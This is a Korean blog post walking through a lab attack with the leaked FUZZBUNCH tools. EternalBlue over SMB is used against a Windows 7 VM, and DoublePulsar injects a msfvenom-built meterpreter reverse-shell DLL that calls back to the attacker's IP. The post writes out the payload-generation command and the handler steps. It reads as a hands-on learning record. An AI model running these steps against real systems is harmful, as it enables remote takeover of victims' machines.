 ```yaml
---
layout: post
cover: 'assets/images/cover6.jpg'
title:  FUZZBUNCH를 사용한 해킹
date:   2017-07-11 01:01:01
tags: fiction
subclass: 'post tag-fiction'
categories: 'pjya0321'
navigation: True
logo: 'assets/images/ghost.png'
---
```



## 이터널블루와 더블풀자를 사용한 해킹
-----

해당 글은 가상환경 에서 실행했습니다.  
실제 환경에서 악용하면 나빠요 내책임아니에용  

쉐도우 프로커가 유출한 FUZZBUNCH 공부 기록  

윈도우XP 에 설정했다.  

필요한 준비물은  

https://github.com/misterch0c/shadowbroker  
쉐도우 브로커 자료 깃허브  
https://www.python.org/download/releases/2.6.6/  
파이썬 2.6  
https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/  
Pywin32 2.6버전  

요로케 3개  
왜 파이썬 2.6을 사용하는지는 잘모르지만 윈10에 2.6깔기 싫어서 가상에다 했다.  

그리고 환경변수 Path에 파이썬 경로 설정해준다.  

설정은 끝났다.  


cmd창에서 shadowbroker-master\windows 경로에 있는 fb.py 를 실행시킨다.  
실행시키기 전에 windows 경로에 listeningposts라는 폴더를 하나 생성해준다.  


![1](assets/postimage/Fuzz1.png)
fb.py를 실행하면 이런 화면이 보이고 순서대로 입력해준다  

타겟아이피 입력  
콜백아이피 입력(공격자 아이피)  
리다이렉션 사용은 알아서 (NO로 했음)  
로그를 기록할 디렉토리  

![2](assets/postimage/Fuzz2.png)

그리고  
프로젝트 인덱스는 대충 숫자 설정해주고  
프로젝트 이름도 설정 해주고   
로그 기록할껀지 말껀지 설정해주면  

퍼즈번치로 들어와짐  

use 명령어 입력하면 모듈들이 나온다  

![3](assets/postimage/Fuzz3.png)

use Eternalblue 을 입력하면 이터널블루가 실행된다.  

다양한 설정들 할꺼냐 안할꺼냐 하는데 그냥 디폴트값 계속 할꺼라서 엔터 눌러주면됨  
445포트는 SMB포트임  
중간에 Mode는 1번 해야 퍼즈번치사용함  

![4](assets/postimage/Fuzz4.png)

방화벽이 켜져있으면 위같은 화면이 나온다.  

![5](assets/postimage/Fuzz5.png)

타겟 을 윈7가상으로 바꾸고 방화벽을 내리고 다시 실행했다  
이번엔 이터널블루 석세스가 뜬다.  

![6](assets/postimage/Fuzz6.png)


칼리에서  

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.254.129 lport=4444 -f dll -o /root/Desktop/kangol.dll  

명령어를 입력해서 악성 dll을 생성한다.  
그리고 그걸 공격하던 xp로 가져온다.  

![7](assets/postimage/Fuzz7.png)

핸들러 하나 설정해준다. 위 dll악성코드와 동일한설정으로 한다.  

![8](assets/postimage/Fuzz8.png)

그리고 메타스플로잇으로 방금만든 핸들러를 실행시켜준다  

![9](assets/postimage/Fuzz9.png)

다시 공격하던 XP로 돌아가서 use Doublepulsar 명령어를 입력해서 더블풀자를 실행한다. 

![10](assets/postimage/Fuzz10.png)

설정들을 디폴트로 해주다가  

중간에 펑션에서 우리가 사용할 악성코드는 DLL이기 때문에 2번 dll을 설정해준다.  
그리고 DLL페이로드 경로는 생성한 악성 DLL의 경로를 넣어준다.  

프로세스 네임을 디폴트값으로 해주면 윈7을 해킹할 때 금방 꺼지기 때문에  
explorer.exe로 설정한다.  

설정은 완료하면 더블풀자 석시드~ 나온다  

![11](assets/postimage/Fuzz11.png)

다시 칼리리눅스로 돌아가서 인터프리터 세션이 하나 실행됬다.  

![12](assets/postimage/Fuzz12.png)

리버싱하던 윈7이라 컴이름이 리버스엔지니어링으로 나온다 ㅇㅅㅇ  

![13](assets/postimage/Fuzz13.png)

sessions -i 1  
을 입력한다.  

그리고 이런저런 명령어를 처보면 해킹이 됬다는것을 알 수 있다.  
![14](assets/postimage/Fuzz14.png)

윈도우7의 바탕화면을 스크린샷 한 모습이다.  
끝  